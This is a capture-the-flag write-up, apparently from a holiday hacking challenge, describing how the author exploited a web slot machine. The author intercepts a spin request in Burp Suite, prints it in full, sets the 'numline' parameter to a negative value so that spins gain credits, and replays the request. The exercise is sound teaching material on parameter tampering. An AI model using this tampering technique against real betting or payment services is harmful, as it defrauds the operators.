







# Slot Machine Investigation

This objective involved attempting to exploit a weakness in a slot machine. Since this slot machine was accessed through a web browser, I visited the game with Firefox:



Clicking on "Play Game" brought me to a fairly themed looking slot machine interface:



Reviewing the javascript showed that there was a websockets connection opened, but nothing particularly exploitable via javascript, at least as far as I could tell. This was a far cry different from the potential exploits I discovered from the [Logic Munchers Terminal Challenge](term_lm.md), so I did the next sensible thing: I fired up Burp Suite and intercepted the connection when I hit "Spin."



I noticed that a POST request was sent to an `/api/v1/` endpoint, followed by a uniquely generated token, then `/spin`. Within this request, a cookie was sent with two values

- `XSRF-TOKEN` which was base64 encoded, and decoded to: 
- `slots_session` which was also base64 encoded, and decoded to 

Sadly, those didn't really help me much, but what was interesting was the last bit -- the data sent via the POST. Here is an easier-to-read version of the HTTP POST request:

```HTTP
POST /api/v1/cda78409-427d-42a1-b454-f6c864c972e4/spin HTTP/2
Host: slots.jackfrosttower.com
Cookie: XSRF-TOKEN=eyJpdiI6IndBTU13TXBld0c4KzFSZmtiK2RleHc9PSIsInZhbHVlIjoiVXh6MUs5YzM2V0U2bkQ4YzhCcXo5MW1GQ1Jpem95ZnhRNVh3eEtWNVYybGlGZlRiN3Q5TDZUMjZsaFhFWW9GOEhvYitzRCtMRlBqKzZSQ0ZsQy90REtKUHhLLzRQY1hKQVhaMHg2NWhHMFVMd2pSVUJTK2hEdHNLK1FBcVhPU3oiLCJtYWMiOiI5MWMyMmU2NzZiOGM5MjgyOTY5ZDE5NDQ5ZDkyMmMxZGM3YzViMjBhOGUwY2FlOWVkNjZiOThiMDI2Yzg5YjgzIiwidGFnIjoiIn0%3D; slots_session=eyJpdiI6InpuRGdRVVY3WkZLTlFFdFJrSG1UQXc9PSIsInZhbHVlIjoiZDFoUjFnZnZkUWtZb3Y1ZTZqMVJXd0p3WG03dm1pZWJYa0FQc2xOYnh6RjRRcWRZSHl5dEFFNWZrRGcyTkc0TG56dUY1ZUdPa3Z5OWttcG9La0ZBbjFkZjAvZlFRcURlbHJrSVZYYy9LTHpVTDgrY3BYWmc0M2x0RldYV29QMWMiLCJtYWMiOiJkMWJlNzE4MzY4Y2NkNTFiYjk4OWY2ZDA0M2U3NGUwYWIxZjhmNjhhNjQwZGI1ODRmYmNiY2I1MzMwMTc0Y2ZiIiwidGFnIjoiIn0%3D
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://slots.jackfrosttower.com/uploads/games/frostyslots-861175/index.html
Content-Type: application/x-www-form-urlencoded
X-Ncash-Token: add570a0-5a79-4903-a13b-2f12cbe8b923
Origin: https://slots.jackfrosttower.com
Content-Length: 33
Te: trailers

betamount=10&numline=20&cpl=0.1
```

Note the line `betamount=10&numline=20&cpl=0.1`

By changing the `numline` to equal -20, it seems that instead of losing money on a roll, I instead _gain_ money. Interesting!

I can send the above to Burp Suite's Repeater mechanism and repeat this a bunch of times until I get my credits to...let's say over 1000:



Nice. Does Jack have anything to say about that?



Answer: `I'm going to have some bouncer trolls bounce you right out of this casino!`

